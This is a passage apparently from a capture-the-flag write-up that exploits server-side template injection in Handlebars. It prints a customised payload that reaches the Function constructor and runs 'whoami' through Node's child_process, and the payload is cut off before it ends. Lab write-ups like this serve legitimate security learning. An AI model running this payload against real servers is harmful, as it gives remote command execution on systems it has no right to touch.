 ```
    {{/with}}
  {{/with}}
{{/with}}
```

![Globals](./Screenshots/bikeglobal2.png)

No error, so we can keep modifing it.

I found this: https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet and it was very helpful.

I customized one payload to our needs.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
```
